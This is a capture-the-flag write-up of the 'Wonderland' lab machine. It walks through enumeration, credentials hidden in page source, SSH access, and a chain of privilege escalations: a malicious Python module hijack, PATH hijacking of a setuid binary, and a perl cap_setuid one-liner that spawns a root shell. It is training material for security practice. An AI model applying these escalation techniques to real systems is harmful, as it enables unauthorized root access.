 # Wonderland

_24th August 2020_

## Nmap Scan

The initial scan reports the following.

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`

## Enumeration

Initial enumerations with wfuzz and `directory-list-medium` reveals a directory `/r` on the web server. Going with the general theme, `/a`, `/b`, `/i` and `/t` are all valid subdirectories. So, we navigate to `http://<IP>/r/a/b/b/i/t/` and sure enough, it gives us a web page.

### Analysis

A piece of code like so exists in the source code and seems to be the credentials for the user (alice).

```html
<p style="display: none;">
  alice:password
</p>
```

## SSH

Trying to log in with the previous credentials to `alice@<IP>`, we get a shell.

```
alice@wonderland:~$
```

### Analysis

The current directory has the following files.

```
drwxr-xr-x 5 alice alice 4096 May 25 17:52 .
drwxr-xr-x 6 root  root  4096 May 25 17:52 ..
lrwxrwxrwx 1 root  root     9 May 25 17:52 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25 02:36 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25 02:36 .bashrc
drwx------ 2 alice alice 4096 May 25 16:37 .cache
drwx------ 3 alice alice 4096 May 25 16:37 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25 02:52 .local
-rw-r--r-- 1 alice alice  807 May 25 02:36 .profile
-rw------- 1 root  root    66 May 25 17:08 root.txt
-rw-r--r-- 1 root  root  3577 May 25 02:43 walrus_and_the_carpenter.py
```

The python script seems to randomly display 10 lines from a poem string.

```
The line was:	 And why the sea is boiling hot —
The line was:	 And this was odd, because, you know,
The line was:	 The sands were dry as dry.
The line was:	 And more, and more, and more —
The line was:	 There were no birds to fly.
The line was:	 Shining with all his might:
The line was:	 "A pleasant walk, a pleasant talk,
The line was:	 They wept like anything to see
The line was:	 "It seems a shame," the Walrus said,
The line was:	 All hopping through the frothy waves,
```

Checking the rights for the current user with `sudo -l`, we find the following.

```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

So, We can run sudo `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as the user (rabbit).
Since the script uses the `random` module, we can create a malicious script as a fake random module in the same directory so that the script executes our `random.py` instead of the real random module.

## Privilege escalation

The script to get shell can be created as follows.

```
import os

os.system('/bin/bash')
```

This is now stored as `random.py` in the same directory.

### Analysis

Upon execution as the user (rabbit) as `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, we get

```
rabbit@wonderland:~$
```

We have successfully escalated our privileges to the (rabbit) user.

## Execution flow hijacking

Looking in the rabbit directory at `/home/rabbit`, we find a file called teaParty which is a setuid Linux binary. Running it gives us the following.

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 24 Aug 2020 18:03:53 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Upon further examination of the source on downloading, we find that the binary uses the date command in bash. We can manipulate the PATH variable of this file and obtain a shell from the user which this file actually belongs to by creating a new bash script to get a shell (/bin/bash) and setting the new path like so: `export PATH=/home/rabbit:$PATH`.

### Analysis

Doing so gives us the prompt

```
hatter@wonderland:/home/rabbit$
```

We have escalated ourselves to the (hatter) user. Upon navigating to the `/home/hatter` directory, we find a `password.txt` file which contains a password for the (hatter) user. Checking for the rights of the user (hatter) with `sudo -l` does not give us much. Doing some basic enumeration reveals that perl has the following capability set: `cap_setuid+ep`. `perl` does not seem to run on the shell so we use the password obtained previously to get superuser by running `su hatter`(gid changes).

## Privilege Escalation(to root)

Since we need to abuse the setuid capability using perl, we can check for the same on [gtfobins](https://gtfobins.github.io/gtfobins/perl/). This gives us an entry like so.

```sh
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

So we run the same on the machine using `/usr/bin/perl` and we get a shell for the (root) user.

### Analysis

Navigating to the `/home/alice` directory we find that we can now open the file `root.txt` and that it contatains the flag for the challenge. Navigating to `/root` gives us a file `user.txt` with another flag for the additional question.
